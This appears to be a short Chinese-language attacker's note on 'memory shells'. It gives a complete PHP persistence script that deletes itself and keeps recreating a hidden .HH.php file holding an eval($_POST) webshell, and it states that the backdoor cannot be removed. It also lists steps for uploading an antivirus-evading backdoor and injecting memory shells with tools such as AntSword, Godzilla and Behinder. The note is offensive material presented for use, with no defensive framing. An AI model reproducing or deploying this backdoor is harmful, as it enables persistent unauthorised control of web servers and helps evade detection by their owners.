



# 内存马


```
<?php
ignore_user_abort(true); #强制脚本在用户断开连接（如关闭浏览器）后继续在后台运行
set_time_limit(0); #取消脚本执行时间限制（默认为30秒）
@unlink(__FILE__); #尝试删除当前脚本文件自身​（__FILE__是当前文件路径）
$file = '.HH.php';
$code = '<?php @eval($_POST["c"]); ?>';
while(1) {
    file_put_contents($file, $code);
    usleep(5000); #每次循环后暂停5毫秒​（5000微秒）
}
?>
```
HH.php后门无法删除,后门进程一直存在,代码循环执行

.net
使用蚁剑as-expolit插件注入内存马


java:
蚁剑,哥斯拉,冰蝎等


过程:
1.先上传一个常规后门(做免杀)
2.在注入内存马
3.配置内存马信息

直接注入内存马:
流量没有常规后门流量
查杀没有开始



